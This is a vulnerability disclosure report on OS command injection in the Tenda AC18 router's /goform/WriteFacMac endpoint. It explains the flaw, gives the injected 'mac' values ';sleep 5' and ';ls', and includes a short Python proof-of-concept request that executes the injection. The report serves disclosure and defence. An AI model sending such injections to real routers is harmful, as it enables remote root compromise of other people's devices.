


# Vulnerability Report: OS Command Injection in Tenda Router `WriteFacMac` Endpoint

### summary

A critical OS Command Injection vulnerability has been identified in the web management interface of Tenda routers.The vulnerability exists in the `/goform/WriteFacMac` endpoint. A remote attacker can exploit this flaw by sending a maliciously crafted HTTP POST request containing shell metacharacters in the `mac` parameter. Successful exploitation allows the attacker to execute arbitrary system commands with root privileges, leading to a complete compromise of the device (Remote Code Execution - RCE).

###  Product Information

Product: Tenda AC18 Wireless Router

Affected Version: V15.03.05.05

Vulnerability Type: OS Command Injection  CWE-78

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html
- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

### Vulnerability Details:

The vulnerability is located in the underlying C function `formWriteFacMac`, which is responsible for modifying the factory MAC address of the device.

When an HTTP request is made to the `/goform/WriteFacMac` endpoint, the application extracts the value of the `mac` parameter using the internal `sub_2B884` function and stores it in the pointer `v3`.

The application directly passes the user-controlled `v3` variable as a string format argument (`%s`) to the `doSystemCmd` function. The `doSystemCmd` function ultimately executes the concatenated string using system-level functions, which invoke the  shell.

Because there is absolutely no input sanitization or filtering applied to the `mac` parameter, an attacker can inject shell metacharacters (such as `;`, `||`, `&&`, or backticks).

For example, if an attacker supplies `mac=;sleep 5`, the resulting command executed by the shell becomes: `/bin/sh -c "cfm post netctrl 51?op=3,string_info=;sleep 5"`



### POC

```python
def exploit_formWriteFacMac():
    url = f"http://{host}/goform/WriteFacMac"
    data = {
        b"mac": ";ls"
    }
    res = requests.post(url=url,data=data)
    print(res.content)  
```



The shell successfully executes the injected `ls` command.